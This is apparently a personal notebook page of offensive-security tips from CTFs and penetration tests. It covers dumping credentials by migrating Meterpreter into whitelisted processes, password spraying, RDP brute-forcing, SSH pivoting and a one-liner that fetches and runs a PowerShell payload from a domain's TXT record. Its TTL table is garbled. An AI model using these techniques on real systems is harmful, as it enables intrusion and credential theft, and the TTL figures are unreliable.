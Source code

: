 ```yaml
---
description: Unorganized collections of my notes from CTFs and penetration tests
---
```


# Offensive Security Notes

1\. Search for whitelisted applications when looking to migrate and dump credentials. During a penetration test I was struggling to dump credentials with Kiwi as a PoC. Migrating into an AppSense application that is required to be whitelisted by endpoints can result in easy l00t. [This link](https://knowledge.broadcom.com/external/article/171640/dlp-endpoint-agent-causes-delays-when-fi.html) lists a few of the executables that I was able to migrate into with Meterpreter and proceed to execute Kiwi from, namely EMUser.exe.

2\. Time to Live

```bash
TTL > 64 it is most likely a Linux box
TTL > 128 it is most likely a Windows
TTL < 128 most likely some type of networking device.
```

3\. Some quick notes on organizing tooling:

* Download and place the tool into /opt/ (e.g., Aquatone).&#x20;
* Execute the following command on the Aquatone binary: `ln -s /opt/aquatone/aquatone /usr/local/bin/aquatone`

3\. Reverse shell preferences:

* External: Bind shell
* Internal: Reverse shell

4\. [Microsoft has a great reference](https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies) for .NET Framework & Windows OS Versions. We can then [use a precompiled binary from SharpCollection](https://github.com/Flangvik/SharpCollection) to exploit the system.

* Compile the binaries yourself.. Unless it's a CTF.

5\. Performing password spraying with [SprayCharles](https://github.com/Tw1sm/spraycharles) from my experience is more successful than using the [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). Ran into a situation on an engagement where multiple valid logins were reported as invalid by SprayingToolkit.&#x20;

6\. Kali Linux allows for multiple IP addresses to be set manually on an interface, allowing for you to set multiple callbacks in case one of your IP addresses gets banned. The following demonstrates a screenshot of this:

![](https://i.imgur.com/FYiHJX6.png)

7\. Download a Nessus scan via Metasploit:

```bash
# Load the Nessus plugin
load Nessus

# Authenticate to Nessus
nessus_connect $username:$password@127.0.0.1:8834

# List Available Nessus Scans (Pay attention to the ID)
nesssus_scan_list

# Export the Nessus Scan
Nessus_scan_export $id nessus

Download the Nessus scan to ~/.msf
nessus_report_download $id $fileid

# Report is then accessible in the ~/.msf4/local directory
# Rename the file to $client.nessus
```

8\. Quick SSH tips:

#### Add SOCKS to an Existing SSH Connection

```bash
<enter> ~C
-D 1080
```

#### Forward a Port on an Existing SSH Connection

```bash
<enter> ~C
-L 1337:localhost:1337
```

9\. Make your life significantly easier when analyzing email headers with [Message Header Analyzer](http://mha.azurewebsites.net).

10\. Trying to make a high quality screenshot to illustrate commands used? Check out [carbon.now.sh](https://carbon.now.sh/).&#x20;

10\. Don't know what a command does? There's no shame in that. For Linux check out [ExplainShell](https://explainshell.com/) and for PowerShell use[ ExplainPowershell](https://www.explainpowershell.com/).&#x20;

11\. Check the configuration of LAPS using a machine account per [@HackingLZ](https://twitter.com/hackinglz), as it was noted that configurations are often messed up for them.&#x20;

12\. Your daily reminder that RDP local admin bruteforce has no rate limiting.

13\. If you have a shell on a Windows host and need to check if your process is high integrity without sounding alarms, you can issue the following check:

```bash
# >= high if file listing is shown
CMD -> dir \windows\temp
PowerShell --> ls \windows\temp
```

14\. A fun way to execte payloads is via a domains TXT record, the following command will run the provided payload:

```bash
powershell . (nslookup -q=txt parzival.sh)[-1]
```

15\. Always perform content discovery both as an unauthenticated and authenticated user (provide cookies to tool of choice)

16\. Trigger NTLM authentiction over HTTP from the command line:

```powershell
Invoke-WebRequest -UseDefaultCredentials
```
